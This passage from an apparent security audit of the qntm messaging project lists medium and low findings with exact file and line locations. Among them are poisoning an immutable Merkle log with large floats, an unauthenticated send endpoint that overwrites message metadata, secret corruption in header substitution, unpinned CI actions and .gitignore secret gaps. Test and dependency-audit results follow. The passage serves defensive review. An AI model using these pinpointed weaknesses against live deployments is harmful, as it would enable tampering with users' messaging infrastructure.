- **P2-4 — Charter Cross-Language JCS `>2^53` Integer Poison & Unbounded TS HTTP Read ([python-dist/src/qntm/charter/json.py](../../python-dist/src/qntm/charter/json.py#L36-L37), [python-dist/src/qntm/charter/proofs.py](../../python-dist/src/qntm/charter/proofs.py#L154-L199), [client/src/charter/client.ts](../../client/src/charter/client.ts#L22)):** Go and TS accept exact IEEE-754 floats in `[2^53, 10^21)` (e.g., `100000000000000020000`) into the immutable Merkle log, which permanently breaks Python `audit_charter_snapshot(response.json())` (`Integer is not exact in binary64`); TS `CharterRegistryClient` calls `await response.text()` with no size bound (vs Python's 32 MiB cap).
- **P2-5 — Canonical CBOR Non-ASCII Map Key Sort Mismatch ([client/src/crypto/cbor.ts](../../client/src/crypto/cbor.ts#L28-L39)):** Sorts keys by JS UTF-16 `.length` rather than UTF-8 byte length (`"é"` vs `"aa"`), diverging from Python `cbor2` RFC 8949 canonical ordering on non-ASCII map keys.
- **P2-6 — Gateway Execution Edge Cases ([gateway-worker/src/execute.ts](../../gateway-worker/src/execute.ts#L56-L91), [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L782-L790), [gateway-worker/src/do.ts](../../gateway-worker/src/do.ts#L840-L899)):** `headerValue.replace('{value}', credentialValue)` corrupts secrets containing `$` (`$&`, `$$`); uncaught `executeRequest` throws (e.g. 3xx redirect) tear down the relay WebSocket callback without posting a `gate.result` error; and 1-participant governance proposals (`N=1`) stall until a later message because `handleGovPropose` doesn't call `checkAndApplyProposal`.
- **P2-7 — Relay & Echo Secondary Bugs ([worker/src/retention.ts](../../worker/src/retention.ts#L139-L143), [worker/src/index.ts](../../worker/src/index.ts#L187-L190), [worker/src/index.ts](../../worker/src/index.ts#L1009-L1021), [echo-worker/src/index.ts](../../echo-worker/src/index.ts#L184-L194)):** Unauthenticated `/v1/send` `ON CONFLICT(msg_id) DO UPDATE` overwrites `seq` and extends `expires_at` in `message_metadata`; `GET /v1/announce/info` still returns `200` for deleted/quarantined channels; `announceID` hashes uncanonicalized base64url strings; `echo-worker` re-publishes cached replies on ciphertext replay; `monitoring/requirements.txt` pins `qntm==0.6.1`.
- **P2-8 — Charter Go O(N) Snapshot Rebuild & `/healthz` Slot Contention ([charter-registry/store.go](../../charter-registry/store.go#L303-L351), [charter-registry/operations.go](../../charter-registry/operations.go#L104-L111)):** Every `/v1/*` read rebuilds JCS + Merkle trees across all entries and signs twice (`4` signs per `/v1/consistency`), and `/healthz` shares the 4-slot `o.slots` semaphore (`503 registry_busy` under 4 slow requests).
- **P2-9 — CI/CD Supply-Chain & Release Script Gaps ([.github/workflows/release.yml](../../.github/workflows/release.yml#L34-L82), [.github/workflows/publish-npm.yml](../../.github/workflows/publish-npm.yml#L31-L89), [scripts/check_release.py](../../scripts/check_release.py#L26-L50)):** Unpinned third-party actions (`cloudflare/wrangler-action@v3`, `pypa/gh-action-pypi-publish@release/v1`, `softprops/action-gh-release@v2`, `oven-sh/setup-bun@v2`, `astral-sh/setup-uv@v6`) and unpinned `pip install build` / `uvx pip-audit`; missing `environment:` + `concurrency:` on `publish-npm.yml` and `deploy-*.yml`; `check_release.py` omits `channel/.claude-plugin/plugin.json`.
- **P2-10 — Documentation Contradictions & `.gitignore` Secret Gaps ([README.md](../../README.md#L94), [README.md](../../README.md#L191), [docs/threat-model.md](../threat-model.md#L74), [python-dist/README.md](../../python-dist/README.md#L93), [.gitignore](../../.gitignore#L1-L55)):** `README.md:94` still claims *"No addresses ship by default"* (contradicting `v0.9.1`–`v0.9.4` built-in Corpo guidance providers) and `README.md:191` says *"describes qntm v0.6.2"*; `docs/threat-model.md:74` omits Corpo public intake & Grok triage; PyPI `python-dist/README.md:93`, `docs/attachments.md:6`, `docs/metadata-privacy.md:9`, and `docs/typescript-gateway.md:77` still label shipped features *"Unreleased"*; `.gitignore` does **not** ignore Wrangler `.dev.vars`, `.env*`, or generic `.qntm*` profile directories.
- **P3-1..4 — Minor Hardening:** Attachment filenames allow Unicode RLO (`U+202E`), C1 controls, `:`, and Windows device names ([python-dist/src/qntm/attachment.py](../../python-dist/src/qntm/attachment.py#L63-L79)); `createGatewayInviteBody` reads `participants[0]` instead of `GroupState.creator` ([client/src/gate/handshake.ts](../../client/src/gate/handshake.ts#L78)); AIM `store.setDropboxUrl` lacks URL scheme validation (breaking backup export if malformed) and `saveIdentity` leaks profile names across local profiles ([ui/aim-chat/src/store.ts](../../ui/aim-chat/src/store.ts#L229-L237)); `checkpoint.js:27` hardcodes `charter.qntm.corpo.llc`.

---

## 6. Local Verification, Dependency & Repo/Beads Hygiene Summary

| Check | Result | Notes |
|---|---|---|
| `scripts/check_release.py --tag v0.9.4` | **Pass** | Consistent across checked manifests (`0.9.4`) |
| `scripts/generate_cli_reference.py --check` | **Pass** | `docs/cli-reference.md` matches `cli.py` |
| Python (`uv run pytest`) | **684 passed, 1 skipped** | Clean on `v0.9.4` (`3` subtests passed) |
| TypeScript SDK (`client`) | **428 passed** + `tsc` build | Note: local `client/dist/` was stale from Sep 9 prior to rebuild |
| Gateway Worker (`gateway-worker`) | **138 passed** | Clean once `client/dist` matched `v0.9.4` |
| Browser UI (`ui/aim-chat`) | **118 passed** | Unit tests clean |
| Terminal UI (`ui/tui`) | **27 passed** | Including PTY smoke suites |
| OpenClaw (`openclaw-qntm`) | **84 passed** (Node 25.6.1) | Fails 4 SQLite suites under default NVM Node `22.18.0` (SQLite 3.50.2 WAL bug; requires Node `>=24.16.0` or `>=26.1.0`) |
| Charter Registry (`go test ./...`) | **Pass** | Clean in `1.57s` |
| `npm audit` (9 maintained packages) | **0 advisories** | Both runtime and devDependencies clean |
| `npm audit` (`nanoclaw-qntm`) | **0 runtime / 9 dev** | `2 critical` (`vitest`, `tinypool`), `5 high` (`vite`, `postcss`, `picomatch`, `nanoid`, `source-map-js`) |

> [!IMPORTANT]
> **Repository, Branch & Beads Hygiene Observations:**
> - **Beads drift (13 stale `in_progress` issues from Sep 9–10 with expired leases):** Several `in_progress` / `open` P1–P2 beads appear already implemented on `main`, including `qntm-z08g` (strict Ed25519 verification), `qntm-oftx` (AIM Cloudflare Pages deploy), `qntm-4xry` (scheduled charter backups), `qntm-0foe` (HTTPS monitoring), and `qntm-blo4` (guidance intake).
> - **Unmerged major branch divergence:** `origin/feature/contact-group-welcome` is **98 commits ahead** and **14 commits behind** `main` (and holds the relay WebSocket close-handshake fix `1db8b73` for `qntm-91yk`). Overall, **39 of 96 local branches** and **41 of 94 remote branches** are already merged into `main`.
> - **Workspace & tracked clutter:** Untracked `safety.pdf` (Sep 7 audit PDF) and a gitignored 19 MB Mar 11 Go binary `./qntm` sit in the local checkout root; 90+ legacy `.company/**` and `FOUNDER-*.md` files remain tracked in the public tree.

---

## 7. Confirmed Clean Areas & Previously Tracked Oct 30 Boundaries

- **Verified Sound:** QSP-1 XChaCha20-Poly1305 / HKDF / Ed25519 prime-order verification (`client/src/crypto/`, `python-dist/src/qntm/ed25519.py`), Corpo sealed-intake domain/key/reply-invite binding (`guidance/index.ts`, `guidance_inbox.py`), attachment SHA-256 & chunk-offset verification (`attachment/`), Charter Merkle inclusion/consistency/non-membership proofs (`charter/`), `charter-registry/deploy/checkpoint.js` DOM safety (`textContent` + strict CSP), Python `storage.py` `0700`/`0600` `O_NOFOLLOW` atomic writes, `watch.py` shell-free `Popen` hooks, and zero `${{ ... }}` shell injections across `.github/workflows/*.yml`.
- **Previously Tracked (`qntm-tdib`):** Ungoverned `gate.secret` replacement (`qntm-uqug`), legacy Python CLI vote review (`qntm-7vpy`), offline group freshness (`qntm-n1cd`), general `did:web` egress policy (`qntm-htnu`), bounded journals (`qntm-4xah`), secondary adapter parity (`qntm-1ml2`), monotonic announce rotation (`qntm-esqm`), and WAL crash operator reconciliation (`qntm-3twp`).
